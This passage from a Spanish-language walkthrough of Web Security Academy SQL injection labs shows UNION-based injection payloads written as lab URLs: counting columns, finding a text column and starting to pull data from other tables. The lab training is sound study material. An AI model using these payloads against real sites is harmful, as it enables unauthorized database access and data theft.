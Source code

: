 ```http
https://accb1fe71f4b818780eb38b000d600be.web-security-academy.net/filter?category=Accessories' union select null,null,null --
```
  
ahora es identificar cual columna permite caracteres
  
```http
https://ac851f641e0191b48054265b00af0007.web-security-academy.net/filter?category=Accessories' union select null,'a',null --
```
  
Finalmente les mostramos el texto que nos piden "p20mtj"
  
![sql4.2.png](sql4.2.png )
  
```http
https://ac851f641e0191b48054265b00af0007.web-security-academy.net/filter?category=Accessories' union select null,'p2Omtj',null --
```
  
###  Using an SQL injection UNION attack to retrieve interesting data
  
  
####  Lab5: SQL injection UNION attack, retrieving data from other tables
  
  
Primero igual que los anteriores problemas buscamos la cantidad de columnas
  
```http
https://acf71f531efe798180e3028300c30029.web-security-academy.net/filter?category=Food+&+Drink' union select null,null --
```
  
luego buscamos cuales se pueden utilizar caracteres
  
```http
https://acf71f531efe798180e3028300c30029.web-security-academy.net/filter?category=' union select 'a','a' --
```
  